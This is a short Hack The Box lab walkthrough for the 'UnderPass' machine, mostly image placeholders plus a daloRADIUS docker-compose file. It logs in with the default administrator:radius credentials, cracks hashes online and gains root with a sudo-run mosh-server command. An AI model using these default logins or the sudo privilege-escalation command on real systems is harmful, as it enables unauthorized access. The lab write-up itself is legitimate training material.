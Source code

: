 
# HTB Walkthrough — Machine: UnderPass

**Target IP:** `10.10.11.48`  

**Author:** Miguel Reis  

**Difficulty:** Easy  

**OS:** Linux

![[Pasted image 20250207221310.png]]

![[Pasted image 20250207224725.png]]

![[Pasted image 20250207230132.png]]

![[Pasted image 20250207230211.png]]![[Pasted image 20250207230701.png]]

```yml
version: "3"

services:

  radius-mysql:
    image: mariadb:10
    container_name: radius-mysql
    restart: unless-stopped
    environment:
      - MYSQL_DATABASE=radius
      - MYSQL_USER=radius
      - MYSQL_PASSWORD=radiusdbpw
      - MYSQL_ROOT_PASSWORD=radiusrootdbpw
    volumes:
      - "./data/mysql:/var/lib/mysql"

  radius:
    container_name: radius
    build:
      context: .
      dockerfile: Dockerfile-freeradius
    restart: unless-stopped
    depends_on: 
      - radius-mysql
    ports:
      - '1812:1812/udp'
      - '1813:1813/udp'
    environment:
      - MYSQL_HOST=radius-mysql
      - MYSQL_PORT=3306
      - MYSQL_DATABASE=radius
      - MYSQL_USER=radius
      - MYSQL_PASSWORD=radiusdbpw
      # Optional settings
      - DEFAULT_CLIENT_SECRET=testing123
    volumes:
      - ./data/freeradius:/data
    # If you want to disable debug output, remove the command parameter
    command: -X

  radius-web:
    build: .
    container_name: radius-web
    restart: unless-stopped
    depends_on:
      - radius
      - radius-mysql
    ports:
      - '80:80'
      - '8000:8000'
    environment:
      - MYSQL_HOST=radius-mysql
      - MYSQL_PORT=3306
      - MYSQL_DATABASE=radius
      - MYSQL_USER=radius
      - MYSQL_PASSWORD=radiusdbpw
      # Optional Settings:
      - DEFAULT_CLIENT_SECRET=testing123
      - DEFAULT_FREERADIUS_SERVER=radius
      - MAIL_SMTPADDR=127.0.0.1
      - MAIL_PORT=25
      - MAIL_FROM=root@daloradius.xdsl.by
      - MAIL_AUTH=

    volumes:
      - ./data/daloradius:/data

```

![[Pasted image 20250207231535.png]]

![[Pasted image 20250207231601.png]]

![[Pasted image 20250207233349.png]]

We get redirected to /operators/login.php
We use administrator:radius
Website to decrypt hashes:
https://crackstation.net

![[Pasted image 20250207233324.png]]

using ssh with the user and password found we get the user flag


![[Pasted image 20250207233758.png]]


https://mosh.org/

```bash
mosh --server="sudo /usr/bin/mosh-server" localhost
```

Arguments:
- -server="sudo /usr/bin/mosh-server" pecifies a custom command to run the Mosh server on the remote machine
- localhost:Specifies the target host for the Mosh connection, which in this case is localhost (i.e., the local machine).
This way we get root access to the machine.
